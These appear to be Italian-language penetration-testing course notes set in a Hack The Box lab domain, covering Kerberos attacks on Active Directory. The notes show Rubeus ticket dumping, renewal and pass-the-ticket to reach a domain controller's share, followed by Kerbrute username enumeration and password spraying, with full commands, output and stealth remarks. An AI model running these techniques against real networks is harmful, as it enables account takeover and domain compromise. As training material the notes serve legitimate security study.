
Action: Dump Kerberos Ticket Data (All Users)

[*] Target service  : krbtgt
[*] Target LUID     : 0x89275d
[*] Current LUID    : 0x892730

 Username                 : pixis
 Domain                   : INLANEFREIGHT
 LogonId                  : 0x89275d
 UserSID                  : S-1-5-21-2974783224-3764228556-2640795941-2123
 AuthenticationPackage    : Negotiate
 LogonType                : RemoteInteractive
 LogonTime                : 8/24/2020 9:43:48 AM
 LogonServer              : DC01
 LogonServerDNSDomain     : INLANEFREIGHT.LOCAL
 UserPrincipalName        : pixis@INLANEFREIGHT.LOCAL


   ServiceName           :  krbtgt/INLANEFREIGHT.LOCAL
   ServiceRealm          :  INLANEFREIGHT.LOCAL
   UserName              :  pixis
   UserRealm             :  INLANEFREIGHT.LOCAL
   StartTime             :  8/24/2020 9:44:20 AM
   EndTime               :  8/24/2020 7:44:20 PM
   RenewTill             :  8/31/2020 9:44:20 AM
   Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
   KeyType               :  aes256_cts_hmac_sha1
   Base64(key)           :  TzjL1PVv40EmE/AwhpjXSIjMDkQnymOrusUAVvtGsYA=
   Base64EncodedTicket   :

     doIGSzCCBkegAwIBBaEDAgEWooIFMzCCBS9hggUrMIIFJ6ADAgEFoRUbE0lOTEFORUZSRUlHSFQuTE9DQUyiKDAmoAMCAQKhHzAdGwZrcmJ0Z3QbE0lOTEFORUZSRUlHSFQuTE9DQUyjggTdMIIE2aADAgESoQMCAQKiggTLBIIEx07UF/WIqYSqAExzUj<SNIP>
```

Utilizzando una funzionalità di rinnovo Kerberos, possiamo usare il TGT estratto per ottenere un nuovo ticket valido per lo stesso utente.

```
C:\Tools> Rubeus.exe renew /ticket:doIFVjCCBVKgAwIBBaEDA<SNIP> /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.2

[*] Action: Renew Ticket

[*] Using domain controller: DC01.INLANEFREIGHT.LOCAL (10.129.1.207)
[*] Building TGS-REQ renewal for: 'INLANEFREIGHT.LOCAL\pixis'
[+] TGT renewal request successful!
[*] base64(ticket.kirbi):

      doIFVjCCBVKgAwIBBaEDAgEWooIESTCCBEVhggRBMIIEPaADAgEFoRUbE0lOTEFORUZSRUlHSFQuTE9D<SNIP>

[+] Ticket successfully imported!
```


Dopo il rinnovo, il ticket per l’utente impersonato è presente nella sessione corrente.
```
C:\Tools> klist

Current LogonId is 0:0x892730

Cached Tickets: (1)

#0>     Client: pixis @ INLANEFREIGHT.LOCAL
        Server: krbtgt/INLANEFREIGHT.LOCAL @ INLANEFREIGHT.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 8/24/2020 9:51:02 (local)
        End Time:   8/24/2020 19:51:02 (local)
        Renew Time: 8/31/2020 9:44:20 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

Ora è possibile eseguire azioni come quell’utente, ad esempio accedere al filesystem del Domain Controller, perché l’utente pixis è un Domain Administrator.

```
C:\Tools> dir \\dc01\\c$

    Directory: \\dc01\c$


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        7/27/2020   5:56 PM                Department Shares
d-----        7/16/2016   6:23 AM                PerfLogs
d-r---        8/22/2020  10:52 PM                Program Files
d-----        7/27/2020  12:14 PM                Program Files (x86)
d-----        7/27/2020   7:37 PM                Software
d-----        8/23/2020   6:54 PM                Tools
d-r---        7/30/2020  11:49 AM                Users
d-----        8/17/2020  12:29 PM                Windows
```

Sotto il cofano, Windows utilizza il TGT per richiedere un ticket TGS per lo SPN cifs/dc01.
```
C:\Tools> klist

Current LogonId is 0:0x892730

Cached Tickets: (2)

#0>     Client: pixis @ INLANEFREIGHT.LOCAL
        Server: krbtgt/INLANEFREIGHT.LOCAL @ INLANEFREIGHT.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 8/24/2020 9:51:02 (local)
        End Time:   8/24/2020 19:51:02 (local)
        Renew Time: 8/31/2020 9:44:20 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:

#1>     Client: pixis @ INLANEFREIGHT.LOCAL
        Server: cifs/dc01 @ INLANEFREIGHT.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 8/24/2020 9:58:50 (local)
        End Time:   8/24/2020 19:51:02 (local)
        Renew Time: 8/31/2020 9:44:20 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called: DC01.INLANEFREIGHT.LOCAL
```

##### Processo sacrificale senza privilegi amministrativi
Rubeus necessita di privilegi amministrativi per interagire con il processo ```NetOnly``` che crea la sessione di logon.

Quando si usa un framework C2, lo ```stdin/stdout``` del processo viene generalmente mappato su ```named pipe```, permettendo di interagire con i processi senza privilegi amministrativi.

Se si utilizza Covenant o Cobalt Strike, è preferibile usare la funzionalità ```maketoken``` per creare la sessione di logon invece dell’opzione ```NetOnly``` di Rubeus.


### Enumeration e Password Spraying

È possibile verificare se un nome utente esiste o se una password è valida per un account utilizzando Kerberos. Infatti, dopo la prima richiesta effettuata da un utente (AS-REQ), il Domain Controller può rispondere in modo diverso a seconda che il nome utente esista o meno e, se esiste, se la password sia corretta oppure no.

Questa richiesta AS-REQ è il modo in cui lo strumento Kerbrute esegue enumerazione di username e password spraying.

Il brute force di username e password su Windows tramite Kerberos è molto veloce e potenzialmente più stealth rispetto ad altri metodi, poiché i fallimenti di pre-autenticazione non generano il classico evento di log “Account failed to log on” (ID 4625). Con Kerberos, è possibile validare un username o testare un login inviando soltanto un singolo pacchetto UDP al KDC (Domain Controller).

#### Installazione di Kerbrute

Per installare Kerbrute, è necessario scaricare il binario dalle release di Kerbrute, selezionare l’ultima versione per Linux e renderlo eseguibile.
```
Nanan@htb[/htb]$ mv ~/Downloads/kerbrute_linux_amd64 kerbrute
Nanan@htb[/htb]$ chmod +x ./kerbrute
Nanan@htb[/htb]$ ./kerbrute

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 04/06/23 - Ronnie Flathers @ropnop

This tool is designed to assist in quickly bruteforcing valid Active Directory accounts through Kerberos Pre-Authentication.
It is designed to be used on an internal Windows domain with access to one of the Domain Controllers.
Warning: failed Kerberos Pre-Auth counts as a failed login and WILL lock out accounts

Usage:
  kerbrute [command]

Available Commands:
  bruteforce    Bruteforce username:password combos, from a file or stdin
  bruteuser     Bruteforce a single user's password from a wordlist
  help          Help about any command
  passwordspray Test a single password against a list of users
  userenum      Enumerate valid domain usernames via Kerberos
  version       Display version info and quit

Flags:
      --dc string       The location of the Domain Controller (KDC) to target. If blank, will lookup via DNS
      --delay int       Delay in millisecond between each attempt. Will always use single thread if set
  -d, --domain string   The full domain to use (e.g. contoso.com)
  -h, --help            help for kerbrute
  -o, --output string   File to write logs to. Optional.
      --safe            Safe mode. Will abort if any user comes back as locked out. Default: FALSE
  -t, --threads int     Threads to use (default 10)
  -v, --verbose         Log failures and errors

Use "kerbrute [command] --help" for more information about a command.
```


#### Enumerazione degli utenti
Per enumerare i nomi utente, Kerbrute invia richieste TGT senza pre-autenticazione. Se il KDC risponde con l’errore PRINCIPAL UNKNOWN, significa che l’utente non esiste. Se invece il KDC richiede la pre-autenticazione, significa che l’utente esiste e si può procedere.

Questo non causa veri e propri fallimenti di login, quindi non blocca gli account. Tuttavia, genera l’evento Windows ID 4768 se il logging Kerberos è attivo.

Per funzionare, lo strumento richiede una lista di username, l’IP o hostname del Domain Controller e il dominio.
```
Nanan@htb[/htb]$ kerbrute userenum users.txt --dc dc01.inlanefreight.local -d inlanefreight.local

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 08/25/20 - Ronnie Flathers @ropnop

2020/08/25 23:14:51 >  Using KDC(s):
2020/08/25 23:14:51 >   dc01.inlanefreight.local:88

2020/08/25 23:14:51 >  [+] VALID USERNAME:   john.mills@inlanefreight.local
2020/08/25 23:14:51 >  [+] VALID USERNAME:   joyce.webb@inlanefreight.local
2020/08/25 23:14:51 >  [+] VALID USERNAME:   henry.taylor@inlanefreight.local
2020/08/25 23:14:51 >  [+] VALID USERNAME:   harriet.richardson@inlanefreight.local
2020/08/25 23:14:51 >  [+] VALID USERNAME:   rhys.clements@inlanefreight.local
2020/08/25 23:14:51 >  [+] VALID USERNAME:   vincent.mann@inlanefreight.local
2020/08/25 23:14:51 >  [+] VALID USERNAME:   georgina.roberts@inlanefreight.local
2020/08/25 23:14:51 >  [+] VALID USERNAME:   linda.wells@inlanefreight.local

2020/08/25 23:14:51 >  Done! Tested 117 usernames (8 valid) in 0.347 seconds
```
Nel caso mostrato, Kerbrute riceve una lista di 117 username e identifica 8 utenti validi in soli 0.347 secondi, dimostrando la velocità dell’operazione.

#### Password spraying

Con il comando passwordspray, Kerbrute esegue un attacco di brute force orizzontale su una lista di utenti del dominio. È utile per testare una o due password comuni su molti utenti.

Questo tipo di attacco incrementa il contatore dei tentativi falliti e può portare al blocco degli account. Genera gli eventi Windows:
- 4768 (richiesta di TGT)
- 4771 (fallimento pre-autenticazione Kerberos)

```
Nanan@htb[/htb]$ kerbrute passwordspray users.txt inlanefreight2020 --dc dc01.inlanefreight.local -d inlanefreight.local

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 08/25/20 - Ronnie Flathers @ropnop

2020/08/25 23:19:36 >  Using KDC(s):
2020/08/25 23:19:36 >   dc01.inlanefreight.local:88

2020/08/25 23:19:36 >  [+] VALID LOGIN:  harriet.richardson@inlanefreight.local:inlanefreight2020
2020/08/25 23:19:36 >  [+] VALID LOGIN:  linda.wells@inlanefreight.local:inlanefreight2020
2020/08/25 23:19:36 >  Done! Tested 117 logins (2 successes) in 0.435 seconds
```
In questo caso, viene testata la password ```inlanefreight2020``` su 117 utenti, risultando valida per 2 di essi.

